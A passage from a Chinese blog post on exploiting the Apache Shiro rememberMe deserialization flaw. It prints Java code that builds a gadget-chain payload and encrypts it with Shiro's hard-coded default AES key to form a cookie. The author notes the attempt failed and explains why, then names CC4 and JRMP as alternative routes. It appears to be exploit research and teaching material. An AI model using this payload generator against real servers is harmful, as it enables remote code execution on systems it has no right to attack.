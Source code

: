 ```java

        Constructor handler_constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handler_constructor.setAccessible(true);
        InvocationHandler map_handler = (InvocationHandler) handler_constructor.newInstance(Override.class, map);

        Map map_proxy = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[] {Map.class}, map_handler);
        InvocationHandler handler = (InvocationHandler) handler_constructor.newInstance(Override.class, map_proxy);

        Serializer serializer = new DefaultSerializer();

        byte[] data = serializer.serialize(handler);
        CipherService aes = new AesCipherService();
        ByteSource bs = aes.encrypt(data, Base64.decode("kPH+bIxk5D2deZiIxcaaaA=="));
        byte[] en = bs.getBytes();
        System.out.println(Base64.encodeToString(en));
    }
}
```

但是比较尴尬的是，好像失败了。

查一下控制台可以发现：

```java
org.apache.shiro.io.SerializationException: Unable to deserialze argument byte array.
```

然后参考大佬的博客，是因为：

> Shiro resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class。

如果添加了CC4版本的话，那么就可以直接打下了，具体的EXP参考上面就可以写出，此处不赘述。

如果目标确实没有高版本的依赖，那么可以考虑使用JRMP进行利用。

JRMP会在下一博客说明。
